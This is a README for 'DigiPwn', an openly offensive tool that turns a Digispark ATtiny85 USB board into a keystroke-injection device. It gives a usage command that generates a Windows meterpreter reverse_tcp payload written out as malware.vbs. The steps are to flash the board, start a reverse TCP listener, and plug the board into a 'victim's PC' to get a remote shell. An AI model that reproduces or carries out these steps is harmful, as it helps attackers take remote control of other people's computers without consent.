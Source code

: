 # DigiPwn
Digispark KickStarter ATtiny85 USB Development Board The ATtiny85 based mini development board is similar to the Arduino, 
but cheaper and smaller (of course a bit less powerful). With a whole host of shields to extend its functionality and the 
ability to use the familiar Arduino IDE, this board is a great way to jump into microcontroller electronics.

# Requirements
 - [Python 2.7](https://www.python.org/downloads/)
 - [Arduino](https://www.arduino.cc/en/Main/Software)
 - Setup DigiSpark board in Arduino. [Click here for how-to.](https://digistump.com/wiki/digispark/tutorials/connecting).
 - Requires module [impacket](https://github.com/SecureAuthCorp/impacket).
# Installation 
 - First clone the repo
  `git clone https://github.com/zer0overflow/DigiPwn.git`
 - Then run `python DigiPwn.py [HOST] [PORT] [PAYLOAD] [OUTPUT FILE] [FORMAT]`
   
   Example: `python DigiPwn.py 192.168.1.2 8080 windows/meterpreter/reverse_tcp malware.vbs vbs`
   
 - A file named `keystroke_inject.ino` will be created. Upload that code using Arduino.
 
 - The program will ask you if you want to start a reverse tcp stager. Press y and then enter to start one.
 
 - Plug the malcious DigiSpark to victim's PC and **BOOM! You've a shell!**
 
 # About me
 I'm a 17 year old kid born and raised Oman an country in the middle east. Growing up i was pretty much intrested to code and 
 fell in love with it. During my 8th grade I was introduced to Kali Linux a OS that changed my view of life. Write now I'm     doing my class 12 at Kerela, India. I did CEH which was pretty much amazing. 
 Follow me on Instagram
 
 [https://www.instagram.com/zero.overflow](https://www.instagram.com/zero.overflow)
